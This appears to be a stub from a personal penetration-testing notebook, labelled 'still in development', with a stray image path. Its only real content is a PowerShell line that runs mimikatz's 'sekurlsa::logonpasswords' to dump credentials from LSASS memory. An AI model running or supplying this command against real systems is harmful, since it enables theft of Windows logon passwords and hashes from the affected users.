 
>[!info]
>This note is still in development.


```powershell
# Dump LSASS (non-interactive)
./mimikatz.exe "sekurlsa::logonpasswords" "exit"
```